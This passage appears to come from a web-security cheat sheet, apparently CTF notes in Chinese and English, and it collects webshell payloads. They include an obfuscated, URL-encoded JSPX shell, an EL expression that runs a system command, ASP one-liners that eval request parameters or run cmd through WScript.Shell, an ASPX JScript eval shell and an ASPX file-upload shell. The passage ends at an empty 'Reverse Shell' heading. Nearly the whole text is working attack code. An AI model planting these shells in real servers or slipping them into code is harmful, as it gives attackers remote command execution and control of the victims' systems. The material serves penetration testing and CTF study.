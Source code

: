 ```
Lo%C2%A7%C2%94%C2%93@%C2%A5%C2%85%C2%99%C2%A2%C2%89%C2%96%C2%95~%7F%C3%B1K%C3%B0%7F@%C2%85%C2%95%C2%83%C2%96%C2%84%C2%89%C2%95%C2%87~%7F%C2%83%C2%97%C3%B0%C3%B3%C3%B7%7Fon%25L%C2%91%C2%A2%C2%97z%C2%99%C2%96%C2%96%C2%A3@%C2%A7%C2%94%C2%93%C2%95%C2%A2z%C2%91%C2%A2%C2%97~%7F%C2%88%C2%A3%C2%A3%C2%97zaa%C2%91%C2%81%C2%A5%C2%81K%C2%A2%C2%A4%C2%95K%C2%83%C2%96%C2%94a%C3%91%C3%A2%C3%97a%C3%97%C2%81%C2%87%C2%85%7F%25@@%C2%A5%C2%85%C2%99%C2%A2%C2%89%C2%96%C2%95~%7F%C3%B1K%C3%B2%7Fn%25L%C2%91%C2%A2%C2%97z%C2%84%C2%89%C2%99%C2%85%C2%83%C2%A3%C2%89%C2%A5%C2%85K%C2%97%C2%81%C2%87%C2%85@%C2%83%C2%96%C2%95%C2%A3%C2%85%C2%95%C2%A3%C3%A3%C2%A8%C2%97%C2%85~%7F%C2%A3%C2%85%C2%A7%C2%A3a%C2%88%C2%A3%C2%94%C2%93%7Fan%25L%C2%91%C2%A2%C2%97z%C2%84%C2%85%C2%83%C2%93%C2%81%C2%99%C2%81%C2%A3%C2%89%C2%96%C2%95n%25La%C2%91%C2%A2%C2%97z%C2%84%C2%85%C2%83%C2%93%C2%81%C2%99%C2%81%C2%A3%C2%89%C2%96%C2%95n%25L%C2%91%C2%A2%C2%97z%C2%A2%C2%83%C2%99%C2%89%C2%97%C2%A3%C2%93%C2%85%C2%A3n%25%C3%99%C2%A4%C2%95%C2%A3%C2%89%C2%94%C2%85K%C2%87%C2%85%C2%A3%C3%99%C2%A4%C2%95%C2%A3%C2%89%C2%94%C2%85M%5DK%C2%85%C2%A7%C2%85%C2%83M%C2%99%C2%85%C2%98%C2%A4%C2%85%C2%A2%C2%A3K%C2%87%C2%85%C2%A3%C3%97%C2%81%C2%99%C2%81%C2%94%C2%85%C2%A3%C2%85%C2%99M%7F%C2%89%7F%5D%5D%5E%25La%C2%91%C2%A2%C2%97z%C2%A2%C2%83%C2%99%C2%89%C2%97%C2%A3%C2%93%C2%85%C2%A3n%25L%C2%91%C2%A2%C2%97z%C2%A3%C2%85%C2%A7%C2%A3n%25La%C2%91%C2%A2%C2%97z%C2%A3%C2%85%C2%A7%C2%A3n%25La%C2%91%C2%A2%C2%97z%C2%99%C2%96%C2%96%C2%A3n%25
```

(效果同上 JSPX webshell: `Runtime.getRuntime().exec(request.getParameter("i"));`)

- EL webshell:

```
${Runtime.getRuntime().exec("touch /tmp/pwned")}
```

## ASP Webshell

```
<%eval request("kaibro")%>

<%execute request("kaibro")%>

<%ExecuteGlobal request("kaibro")%>

<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>

```

## ASPX Webshell

- 一般:

```
<%@ Page Language="Jscript"%><%eval(Request.Item["kaibro"],"unsafe");%>
```

- 上傳:

```
<%if (Request.Files.Count!=0){Request.Files[0].SaveAs(Server.MapPath(Request["f"]));}%>
```


# Reverse Shell
